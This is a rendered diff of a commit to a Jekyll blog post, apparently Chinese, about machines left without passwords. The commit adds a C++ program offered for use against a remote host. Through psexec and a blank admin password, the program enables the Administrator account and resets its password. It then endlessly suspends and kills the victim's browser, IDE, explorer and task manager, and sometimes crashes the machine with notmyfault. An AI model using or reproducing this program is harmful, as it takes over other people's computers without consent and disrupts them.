

Before and after one commit to Duanyll/duanyll.com, a Jekyll site: the page built from _posts/2018-10-24-Please-Set-Password.md, in a window 1280 px wide and 1400 px high, scrolled down 883 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update 2018-10-24-Please-Set-Password.md

````diff
--- a/_posts/2018-10-24-Please-Set-Password.md
+++ b/_posts/2018-10-24-Please-Set-Password.md
@@ -46,3 +46,70 @@ notmyfaultc crash 0x01 #瞬间蓝屏（自己的电脑）
 ```
 
 pssuspend配合while(true)与sleep效果奇佳。
+
+## 一段振奋人心的代码
+
+请在sysinternals suite里面执行。方便起见，我把主机名写死在代码里了。
+
+```cpp
+#include <cstdlib>
+#include <iostream>
+#include <cstdio>
+#include <ctime>
+#include <windows.h>
+
+using namespace std;
+
+int main(){
+	srand(time(NULL));
+	system("psexec \\\\xxx -accepteula -u admin -p \"\" -s net user Administrator /active:yes");
+	system("psexec \\\\xxx -accepteula -u admin -p \"\" -s net user Administrator happy");
+	while(1){
+		Sleep(500);
+		switch(rand()%13){
+			case 0:
+				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" chrome");
+				break;
+			case 1:
+				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" devcpp");
+				break;
+			case 2:
+				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" explorer");
+				break;
+			case 3:
+				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" taskmgr");
+				break;
+			case 4:
+				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" chrome -r");
+				break;
+			case 5:
+				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" devcpp -r");
+				break;
+			case 6:
+				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" explorer -r");
+				break;
+			case 7:
+				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" taskmgr -r");
+				break;
+			case 8:
+				system("pskill \\\\xxx -accepteula -u Administrator -p \"happy\" chrome");
+				break;
+			case 9:
+				system("pskill \\\\xxx -accepteula -u Administrator -p \"happy\" devcpp");
+				break;
+			case 10:
+				system("pskill \\\\xxx -accepteula -u Administrator -p \"happy\" explorer");
+				break;
+			case 11:
+				system("pskill \\\\xxx -accepteula -u Administrator -p \"happy\" taskmgr");
+				break;
+			case 12:
+				int p = rand()%100;
+				if(p==0){
+					system("pskill \\\\xxx -u Administrator -p \"happy\" -c -d -s notmyfaultc.exe crash 0x01 -accepteula");
+				}
+				break;
+		}
+	}
+}
+```
````
